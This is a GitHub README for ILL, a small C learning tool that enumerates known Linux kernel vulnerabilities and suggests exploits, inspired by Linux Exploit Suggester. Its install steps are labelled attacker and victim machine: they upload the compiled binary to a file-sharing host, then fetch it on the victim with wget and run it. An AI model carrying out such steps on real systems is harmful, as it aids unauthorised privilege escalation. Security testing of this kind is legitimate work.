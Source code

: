 # 🐧 ILL (I Love Linux)
> 🐧 I Love Linux (ILL) is a C tool developed to fast search for kernel vulnerabilities and suggest to the user

<div align="center">
 <img src="https://i.imgur.com/ZetqrA2.jpg" width="850">
</div>

<br>

<p align="center">
    <img src="https://img.shields.io/github/license/oppsec/ILL?color=black&logo=github&logoColor=white&style=for-the-badge">
    <img src="https://img.shields.io/github/issues/oppsec/ILL?color=black&logo=github&logoColor=white&style=for-the-badge">
    <img src="https://img.shields.io/github/stars/oppsec/ILL?color=black&label=STARS&logo=github&logoColor=white&style=for-the-badge">
    <img src="https://img.shields.io/github/forks/oppsec/ILL?color=black&logo=github&logoColor=white&style=for-the-badge">
    <img src="https://img.shields.io/github/languages/code-size/oppsec/ILL?color=black&logo=github&logoColor=white&style=for-the-badge">
</p>

___

### What is ILL?
**ILL** is a projected that I developed to learn C, I got some inspiration from LSE (Linux Exploit Suggester) and tried to create something simular to it but, I still recommend you to use [LSE](https://github.com/The-Z-Labs/linux-exploit-suggester). ILL, is a simple project to search for kernel already-know vulnerabilities.

<br>

### ⚡ Installing / Getting started

A quick guide of how to install and use ILL.

```shell
1. (attacker machine) https://github.com/oppsec/ILL.git
2. (attacker machine) gcc main.c -o ill
3. (attacker machine) curl -T ill temp.sh
4. (victim machine) wget http://temp.sh/example
5. (victim machine) chmod +x ill; ./ill
```

<br>

### ⚙️ Pre-requisites
- [GCC](https://gcc.gnu.org/) installed on your machine

<br>

### ✨ Features
- Extremely fast
- Low RAM and CPU usage
- Made in C

<br>

### Contributing

A quick guide of how to contribute with the project.

```shell
1. Create a fork from ILL repository
2. Download the project with git clone https://github.com/your/ILL.git
3. cd ILL/
4. Make your changes
5. Commit and make a git push
6. Open a pull request
```

<br>

### ⚠️ Warning
- The developer is not responsible for any malicious use of this tool.